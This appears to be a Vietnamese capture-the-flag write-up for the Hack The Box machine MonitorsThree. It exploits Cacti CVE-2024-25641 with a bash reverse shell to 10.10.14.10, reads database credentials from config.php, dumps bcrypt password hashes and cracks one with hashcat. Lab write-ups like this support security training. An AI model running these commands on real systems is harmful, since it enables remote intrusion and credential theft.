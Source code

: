 <img width="1237" height="456" alt="image" src="https://github.com/user-attachments/assets/272aa500-f8d1-44b6-ae2d-3c92134a4353" />

Đăng nhập vào trang web và khám phá thì không thấy gì đáng chú ý lắm:

<img width="1864" height="958" alt="image" src="https://github.com/user-attachments/assets/11d13050-8604-4c56-af8d-e738899a9572" />

Tiếp tục đăng nhập vào `http://cacti.monitorsthree.htb/` bằng cred vừa tìm được:

<img width="1872" height="764" alt="image" src="https://github.com/user-attachments/assets/5d841e6c-5aab-4811-a3cd-e3749fce7201" />

Làm theo hướng dẫn như trong [CVE-2024-25641](https://github.com/cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88) và thay bằng reverse shell:

```
bash -c 'bash -i >& /dev/tcp/10.10.14.10/1234 0>&1'
```

Ở reverse shell là `www-data`:

```
bash-5.1$ whoami
whoami
www-data
bash-5.1$ pwd
pwd
/var/www/html/cacti
bash-5.1$ 
```

Ở trong `/var/www/html/cacti/include` có file `config.php` có cred của mysql:

<img width="927" height="539" alt="image" src="https://github.com/user-attachments/assets/bc37cbba-5655-4761-b7da-4c72c928ee81" />

Truy cập vào mysql, có database `cacti` và bảng `user_auth` chứa tài khoản và các hash mật khẩu:

```
id	username	password	realm	full_name	email_address	must_change_password	password_change	show_tree	show_list	show_preview	graph_settings	login_opts	policy_graphs	policy_trees	policy_hosts	policy_graph_templates	enabled	lastchange	lastlogin	password_history	locked	failed_attempts	lastfailreset_perms
1	admin	$2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G	0	Administrator	marcus@monitorsthree.htb			on	on	on	on	21	1	1	1	on	-1	-1	-1		0	0	436423766
3	guest	$2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu	0	Guest Account	guest@monitorsthree.htb			on	on	on		1	11	1	1		-1	-1	-1		0	0	3774379591
4	marcus	$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK	0	Marcus	marcus@monitorsthree.htb		on	on	on	on	on	1	11	1	1	on	-1	-1			0	0	1677427318
bash-5.1$ 
```

Dùng hashcat để crack `hashcat -m 3200 ~/hashcat/target.txt ~/wordlist/rockyou.txt` ra được mật khẩu của marcus là `12345678910`, dù có mật khẩu nhưng vẫn không đăng nhập được do 
thiếu key:

```
❯ ssh marcus@10.10.11.30
marcus@10.10.11.30: Permission denied (publickey).
```
